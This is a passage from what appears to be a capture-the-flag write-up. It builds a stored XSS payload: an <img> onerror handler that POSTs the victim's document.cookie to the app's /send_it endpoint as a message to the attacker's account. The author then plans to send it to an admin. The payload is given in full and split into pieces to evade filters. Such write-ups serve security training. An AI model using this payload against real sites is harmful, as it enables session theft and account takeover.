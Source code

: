 This makes a request to `/send_it`, sending a message to our user (id `3416`)
and including the document cookies in it.

Putting it inside the `<img>` tag, we get the following:

```html
<img src="_" onerror="fetch('/send_it',{headers:{['c'+'ontent-type']:'application/x-www-form-urlencoded'},body:'id=3416&c'+'ontent='+encodeURIComponent('cookie:'+document.cookie),method:'POST',mode:'cors',credentials:'include'})">
```

Let us send this to ourselves and see what happens:

<img alt="whatsup" src="img/whatsup/3.png">

It works, although our current user does not have any js-accessible cookies.

Let us now send this message to admin, wait a couple of minutes and check our
message history:
